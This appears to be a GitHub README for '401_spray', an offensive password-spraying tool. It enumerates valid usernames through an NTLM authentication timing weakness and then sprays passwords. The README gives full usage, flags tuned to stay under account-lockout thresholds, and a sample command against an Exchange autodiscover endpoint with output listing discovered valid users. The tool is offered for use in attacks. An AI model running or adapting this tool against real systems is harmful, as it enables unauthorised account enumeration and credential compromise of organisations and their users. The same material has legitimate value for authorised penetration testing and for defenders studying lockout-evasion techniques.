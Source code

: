 # 401_spray
password spraying tool that will check for username validation using the Microsoft CAS timing vulnerability found on endpoints using NTLM authentication. Original code can be found here: https://github.com/fang0654/401_spraying. 
Simply added the following abilities to the original code:
1) to check your username list for valid entries.
2) Obtain the internal domain name tied to the NTLM Authentication using the WWW-Authenticate Header (Only tried this with one target, your milage may vary).
3) Runs the password spraying attack using usernames identified as valid.
4) Seperates the password spraying attack and username validation using the -v and -c flags. 
5) Added some additional flag options so the user isn't forced to use --threads for example (-t can be used).

Why the timing attack? If you have a list of 250,000 potnetial users and only 1000 of them are actually valid, why password spray against all 250,000. That's why timing attack. Thank you Microsoft for this glorious "Feature".

Why make the tool at all? Thanks to how the NTLM Authentication challenge -> response works, we can't do the cheesy stuff like burp turbo intruder against these endpoints. This tool solves that problem.

```python
usage: 401_spray.py [-h] -u USERNAMES -p PASSWORDS [-d DOMAIN] -U URL [-a ATTEMPTS] [-i INTERVAL] [--authtype {ntlm,basic}] [--proxy PROXY] [-t THREADS] [-o OUTPUT] [--add_response] [-v] [-c]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAMES, --usernames USERNAMES
                        List of usernames to attack
  -p PASSWORDS, --passwords PASSWORDS
                        List of passwords to try
  -d DOMAIN, --domain DOMAIN
                        Domain name to append. If not included, then domains will be assumed to be in username list.
  -U URL, --url URL     URL to authenticate against
  -a ATTEMPTS, --attempts ATTEMPTS
                        Number of attempts to try before sleeping. If your lockout policy is 5 attempts per 10 minutes, then set this to like 3
  -i INTERVAL, --interval INTERVAL
                        Number of minutes to sleep between attacks. If your lockout policy is per 10 minutes, set this to like 11
  --authtype {ntlm,basic}
                        Authentication type - basic or ntlm. Note: You can't use a proxy with NTLM
  --proxy PROXY         Proxy server to route traffic through
  -t THREADS, --threads THREADS
                        Number of threads
  -o OUTPUT, --output OUTPUT
                        File to write successful pairs to
  --add_response        Add response times to output
  -v, --validate_users  Validates the list of usernames. By default will also run password spraying attack.
  -c, --check_creds     Runs the password spraying attack
```

Example output:
```Python
./401_spray.py -v -U https://autodiscover.<target>/autodiscover/autodiscover.xml -p /users/bortiz/Documents/Projects/passwords.txt -u /users/bortiz/Documents/Projects/user_names.txt -t 50 -o /users/bortiz/Documents/Projects/valid_creds.txt -i 60 

New password spraying run
Spraying 1 passwords, then sleeping for 60.
URL: https://autodiscover.<target>/autodiscover/autodiscover.xml
[*] Performing incorrect Domain Test
[+] auth creds: random\aaaaaaz, time elapsed: 0:00:00.384964
[+] auth creds: anything1\bbbbbbz, time elapsed: 0:00:00.372382
[+] auth creds: bread_man\ccccccz, time elapsed: 0:00:04.997914
[*] Performing correct Username & Domain Test
[+] auth creds: domain\Guest, time elapsed: 0:00:00.373984
[+] auth creds: domain\Administrator, time elapsed: 0:00:00.374277
[+] auth creds: domain\krbtgt, time elapsed: 0:00:00.371279
[*] Performing incorrect Username Test
[+] auth creds: domain\aaaaaaz, time elapsed: 0:00:15.357264
[+] auth creds: domain\bbbbbbz, time elapsed: 0:00:10.670948
[+] auth creds: domain\ccccccz, time elapsed: 0:00:15.460272
[+] Avg time: 0:00:13.829495
[*] Threshold: 0:00:08.297697
[+] VALID USER FOUND: domain\user1, time elapsed: 0:00:00.522217
[+] VALID USER FOUND: domain\user2, time elapsed: 0:00:00.404065
[+] VALID USER FOUND: domain\user3, time elapsed: 0:00:00.430944
[+] VALID USER FOUND: domain\user4, time elapsed: 0:00:00.422542
[+] VALID USER FOUND: domain\user5, time elapsed: 0:00:00.411033
[+] VALID USER FOUND: domain\user6, time elapsed: 0:00:00.642477
```
